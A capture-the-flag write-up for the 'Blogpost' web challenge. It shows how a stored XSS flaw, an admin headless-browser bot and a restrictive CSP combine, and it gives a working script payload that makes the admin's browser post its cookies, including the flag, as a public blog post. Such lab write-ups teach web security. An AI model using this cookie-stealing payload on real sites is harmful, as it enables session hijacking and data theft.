








# Blogpost

> Points: 725 [?]

## Description

> Jaga created an internal social media platform for the company. Can you leak anyone's information?  
> File: `web_blogpost.zip`

## Solution

### Understanding the application's features



Upon browsing to the URL, we see a navigation bar with the `Blog` and `Login` button. Clicking on either of them brings us to the login page at `/login`:



Since we do not have an account, we can go ahead and register a new account.



After logging in, we are brought to the blog page at `/blog`. From here, we can click on `Create Post` to create a new blog post on the blog.



After clicking on the `Create` button, we can now see our new post on the blog page at `/blog`.



One thing to observe was that posts from all users were being displayed together on the blog page, such as the first post created by the `admin` user. This meant that other users could view my own blog posts. Perhaps we could do something XSS-related?

### Stored XSS Vulnerability



After creating a new post with a basic XSS payload as the content and browsing to the blog page, we see the payload triggering the alert box.



It seems that we found the stored XSS vulnerability in this application. To see how we can exploit this vulnerability to get the flag from the application, we will need to analyse the application's source code and identity where the flag is being stored at.

### Analysing the source code

```bash
$ tree web_blogpost                     
web_blogpost
├── config
│   └── supervisord.conf
├── Dockerfile
├── docker_run.sh
└── src
    └── app
        ├── bot.js
        ├── database.js
        ├── helpers
        │   └── JWTHelper.js
        ├── index.js
        ├── middleware
        │   └── AuthMiddleware.js
        ├── package.json
        ├── package-lock.json
        ├── routes
        │   └── index.js
        ├── static
        │   ├── forms.js
        │   ├── images
        │   │   ├── default.png
        │   │   └── jagasuper.png
        │   ├── main.css
        │   └── theme.js
        └── templates
            ├── blog.html
            ├── index.html
            ├── login.html
            ├── post.html
            ├── profile.html
            ├── register.html
            └── settings.html

9 directories, 23 files
```

Immediately we see a `bot.js`, which suggests that there might be an automated headless browser being used to visit the application.

`src/app/bot.js`:

```javascript
import puppeteer from 'puppeteer';
import {sign, verify} from './helpers/JWTHelper.js';

const browser_options = {
	headless: true,
	args: [
		'--no-sandbox',
		'--disable-background-networking',
		'--disable-default-apps',
		'--disable-extensions',
		'--disable-gpu',
		'--disable-sync',
		'--disable-translate',
		'--hide-scrollbars',
		'--metrics-recording-only',
		'--mute-audio',
		'--no-first-run',
		'--safebrowsing-disable-auto-update',
		'--js-flags=--noexpose_wasm,--jitless'
	]
};

export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "STF{FAKE_FLAG}",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```

The `viewPosts` function seems to access the application at `/blog` as the `admin` user, while having a `flag` cookie being set to the flag. Using the stored XSS vulnerability found earlier, we can trick the headless browser into executing our specially crafted payload and send us their cookies.

A common trick to stealing cookies via XSS is to insert a new image HTML tag that will render an image from the attacker's web server URL with the cookie appended to it. However, due to the Content Security Policy (CSP) of the application, we are not able to do so.

`src/app/index.js`:

```javascript
...
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
...
```

Since this application allows users to create new posts, we could instead force the headless browser to create a new blog post containing their cookies. And since all blog posts are visible to all users, we will be able to view this new blog post!

### Stealing the flag from the admin user

To know what parameters are needed to create a new blog post, we can take a look at the following:

`src/app/routes/index.js`:
```javascript
...
    router.post('/post', auth, async (req, res)=>{
        const { title, content } = req.body;
        if (title && content) {
            db.addPost(title, req.user.username, content)
                .then(async () => {
                    if (req.user.username != 'admin') { 
                        await viewPosts();
                    }
                    res.status(200).send(response('Success'))})
                .catch(() => {console.log('oof');res.status(500).send(response('Error'))});
        }
    });
...
```

All we need is to send a request with the `title` and `content` parameters set. Therefore, we can create a new blog post with an arbitrary title and the contents set to the following:

```html
<script>
fetch("/post", {
    method: "POST",
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        title: "get flag here",
        content: document.cookie
    })
})
</script>
```

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.



## Flag
`STF{FAKE_FLAG}`

